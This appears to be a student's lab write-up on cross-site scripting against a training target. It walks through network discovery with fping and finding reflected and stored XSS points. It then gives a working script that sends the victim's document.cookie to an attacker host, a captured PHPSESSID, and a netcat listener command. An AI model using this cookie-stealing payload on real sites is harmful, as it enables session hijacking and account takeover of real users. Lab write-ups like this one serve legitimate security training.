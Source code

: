 # Cross site scripting 

> Makayla Ferrell | July 28th, 2021

### Steps 

1. Connect to VPN 
```
sudo openvpn <filename> 
```
2. Find Network IP range 
```
ip a 
```
192.168.99.100/24

3. Find active hosts with fping 
```
fping -a -g 192.168.99.100/24 2>/dev/null 
```
The target is 192.168.99.10

4. Visit site and find vulnerable points.
 Search parameter is vulnerable to relfective 
 Blog comments are sanitized 
 Contact feedback is vulnerable to persistent 


Instead of alert(1) use alert(document.domain)

5. Use given attacker site to steal admin cookie with persistent XSS. 

<script> 
	var i = new Image(); 
	i.src="http://192.168.99.100:1234/get.php?q"+document.cookie; 
	document.body.appendChild(i); #add for modern day 
</script>

6. Visit given attacker file to view stolen cookie: http://192.168.99.11/jar.txt 
192.168.99.100 Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0 
qPHPSESSID=o2c8q5r6qfpf4hetju7ph630t7 

7. Can set up a listener to steal the cookie and recieve it as a get request
```
$nc -vlp 1234
``` 